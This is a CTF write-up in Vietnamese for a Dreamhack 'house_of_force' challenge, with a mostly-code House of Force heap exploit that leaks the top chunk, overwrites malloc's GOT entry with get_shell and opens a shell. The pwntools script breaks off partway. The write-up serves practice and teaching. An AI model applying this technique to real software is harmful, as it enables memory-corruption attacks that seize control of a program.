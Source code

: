 ## Exploit

- đầu tiên leak địa chỉ top chunk 

```python 
add(0x8, b'a'*4)
heap = int(p.recvuntil(b':')[:-1], 16)
top = heap + 0x8 + 0x4 + 0x4
print(hex(top))
```

- sau đó thay đổi size của top chunk thành 0xfffffff

![image](https://github.com/gookoosss/CTF/assets/128712571/b7259cb5-d85a-4815-8342-f4125bc5f166)

- target của ta là got&malloc để ow plt thành get_shell, nên ta sẽ tính offset như sau: 

```c 
offset = exe.got.malloc - top - 0x4
```

- lúc này top chunk pointer đang trỏ đến target
- cuối cùng thì ta lấy shell thôi 

``` c
add(offset, b'a')
add(0x4, p32(exe.sym.get_shell))
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', str(0x4))
p.interactive()
```

![image](https://github.com/gookoosss/CTF/assets/128712571/cd1f2437-a717-441a-afff-f98df93f860d)


## script 

```python
from pwn import *

p = process('./house_of_force')

# p = remote('host3.dreamhack.games', 14861)

exe = ELF('./house_of_force')

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size))
    p.sendafter(b'Data: ', data)

def edit(idx, ptr, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'ptr idx: ', str(idx))
    p.sendlineafter(b'write idx: ', str(ptr))
    p.sendlineafter(b'value: ', str(data))

gdb.attach(p, gdbscript = '''
b*0x804887d
b*0x804872c
c
''')

input()
# 0x38

add(0x8, b'a'*4)
```